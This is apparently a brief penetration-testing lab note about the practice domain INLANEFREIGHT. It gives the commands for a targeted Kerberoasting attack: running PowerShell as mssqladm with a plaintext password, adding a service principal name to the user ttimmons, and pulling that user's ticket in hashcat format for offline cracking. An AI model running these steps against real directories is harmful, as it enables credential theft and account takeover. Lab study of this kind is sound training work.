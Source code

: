- log in into as mssqladm
```
runas /user:INLANEFREIGHT\mssqladm powershell
DBAilfreight1!
```
- set SPN for `ttimmons` and the get it and try to crack offilene
```powershell
$SecPassword = ConvertTo-SecureString 'DBAilfreight1!' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\mssqladm', $SecPassword)

Set-DomainObject -Credential $Cred -Identity ttimmons -SET @{serviceprincipalname='INLANEFREIGHT\test'}

get-domainspnticket -spn 'INLANEFREIGHT/test' -credential $cred -outputformat hashcat
```



